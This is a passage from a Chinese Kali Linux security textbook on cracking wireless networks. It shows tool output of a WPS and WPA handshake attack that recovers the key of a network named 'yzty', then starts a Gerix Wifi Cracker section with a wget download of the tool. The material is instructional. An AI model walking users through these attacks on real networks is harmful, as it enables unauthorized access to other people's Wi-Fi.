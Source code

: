 从以上输出信息中，可以看到扫描到五个无线接入点和三个客户端。在输出信息中，共显示了 7 列。分别表示无线接入点编号、ESSID 号、信道、加密方式、电功率、是否开启 wps 和客户端。如果仅有一个客户端连接到无线接入点，则 CLIENT 列显示是 client。如果有多个客户端连接的话，则显示是 clients。

（3）此时，选择要攻击的无线接入点。这里选择第五个无线接入点，输入“1”。然后按下回车键将开始攻击，显示信息如下所示：

```
[+] select target numbers (1-5) separated by commas, or 'all': 1
[+] 1 target selected.
[0:00:00] initializing WPS PIN attack on yzty (EC:17:2F:46:70:BA)
 [0:11:00] WPS attack, 0/0 success/ttl,
 [!] unable to complete successful try in 660 seconds
 [+] skipping yzty
 [0:08:20] starting wpa handshake capture on "yzty"
 [0:08:11] new client found: 18:DC:56:F0:62:AF
 [0:08:09] listening for handshake…
 [0:00:11] handshake captured! saved as "hs/yzty_EC-17-2F-46-70-BA.cap"
 [+] 2 attacks completed:
 [+] 1/2 WPA attacks succeeded
         yzty (EC:17:2F:46:70:BA) handshake captured
         saved as hs/yzty_EC-17-2F-46-70-BA.cap
 [+] starting WPA cracker on 1 handshake
 [0:00:00] cracking yzty with aircrack-ng
 [+] cracked yzty (EC:17:2F:46:70:BA)!
 [+] key:  "huolong5"
[+] quitting 
```

从输出的信息中，可以看到破解出 yzty 无线设备的密码为 huolong5。

# 9.3 Gerix Wifi Cracker 破解无线网络

## 9.3 Gerix Wifi Cracker 破解无线网络

Gerix Wifi Cracker 是另一个 aircrack 图形用户界面的无线网络破解工具。本节将介绍使用该工具破解无线网络及创建假的接入点。

### 9.3.1 Gerix 破解 WEP 加密的无线网络

在前面介绍了手动使用 Aircrack-ng 破解 WEP 和 WPA/WPA2 加密的无线网络。为了方便，本小节将介绍使用 Gerix 工具自动地攻击无线网络。使用 Gerix 攻击 WEP 加密的无线网络。具体操作步骤如下所示。

（1）下载 Gerix 软件包。执行命令如下所示：

```
root@kali:~# wget https://bitbucket.org/SKin36/gerix-wifi-cracker-pyqt4/ downloads/gerix-wifi- cracker-master.rar
--2014-05-13 09:50:38-- https://bitbucket.org/SKin36/gerix-wifi- cracker- pyqt4/downloads/gerix- wifi-cracker-master.rar
正在解析主机 bitbucket.org (bitbucket.org)… 131.103.20.167, 131.103.20.168
正在连接 bitbucket.org (bitbucket.org)|131.103.20.167|:443… 已连接。
已发出 HTTP 请求，正在等待回应… 302 FOUND
位置：http://cdn.bitbucket.org/Skin36/gerix-wifi-cracker-pyqt4/downloads/ gerix-wifi-cracker-master. rar [跟随至新的 URL]
--2014-05-13 09:50:40-- http://cdn.bitbucket.org/Skin36/gerix-wifi- cracker-pyqt4/downloads/ gerix-wifi-cracker-master.rar
正在解析主机 cdn.bitbucket.org (cdn.bitbucket.org)… 54.230.65.88, 216.137\. 55.19, 54.230\. 67.250, …
正在连接 cdn.bitbucket.org (cdn.bitbucket.org)|54.230.65.88|:80… 已连接。
已发出 HTTP 请求，正在等待回应… 200 OK
长度：87525 (85K) [binary/octet-stream]
正在保存至:“gerix-wifi-cracker-master.rar”
100%[======================================>] 87,525   177K/s 用时 0.5s
2014-05-13 09:50:41 (177 KB/s) - 已保存“gerix-wifi-cracker-master.rar” [87525/87525]) 
```
